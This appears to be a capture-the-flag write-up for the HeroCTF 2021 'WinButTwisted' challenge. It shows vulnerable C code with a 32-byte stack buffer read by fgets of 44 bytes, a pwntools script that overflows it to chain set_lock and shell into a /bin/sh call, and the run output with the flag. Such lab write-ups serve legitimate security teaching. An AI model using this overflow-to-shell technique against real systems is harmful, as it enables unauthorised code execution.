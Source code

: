 
In *WinButTwisted.c*, if ``UNLOCKED`` is set to 1, function *shell* invokes *system* to launch a shell. But *shell* is not invoked.

```c
void set_lock()
{
    printf("Setting lock !");
    UNLOCKED = 1;
}

void shell()
{
    printf("In shell function ! ");
    if (UNLOCKED == 1)
    {
        printf("Getting shell ! ");
        setreuid(geteuid(), geteuid());
        system("/bin/sh");
    }
}
```

In *main*, it allows to input 44 bytes, but the buffer can takes up to 32 bytes, so here is a vulnerability. We overflow the buffer and make it jump to *set_lock* to set *UNLOCKED*, return to function *shell* to get shell.

```c
int main()
{
    int (*look)() = look_like;
    int (*hello)() = hello_hero;
    char buffer[32];

    printf("What would a hero say ?\n>>> ");
    fgets(buffer, 44, stdin);
    hello();
    look();

}
```

Use *De Bruijn cyclic pattern* it's easy to find out the padding is 32 bytes, here is the exploit.

```python
host = "pwn.heroctf.fr"
port = 9003
target = "WinButTwisted"

def exploit():
    pr = pwn.connect(host, port)
    elf = pwn.ELF(target)
    rop = pwn.ROP(elf)

    payload = b"A" * 32
    rop.set_lock()
    rop.shell()
    payload += rop.chain()
    print('len:', len(payload), payload)
    pr.sendlineafter("What would a hero say ?\n>>> ", payload)
    print(pr.readall(2))

exploit()
```

```bash
$ py3 exploit.py 
[+] Opening connection to pwn.heroctf.fr on port 9003: Done
[*] '/home/zex/lab_ex/hacking-lab/heroctf-2021/win-but-twisted/WinButTwisted'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loaded 72 cached gadgets for 'WinButTwisted'
len: 40 b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAe\x99\x04\x08\x99\x99\x04\x08'
[+] Receiving all data: Done (62B)
[*] Closed connection to pwn.heroctf.fr port 9003
b'Setting lock !In shell function ! Hero{Tw1sT3D_w1N_FuNcTi0N}  '
```
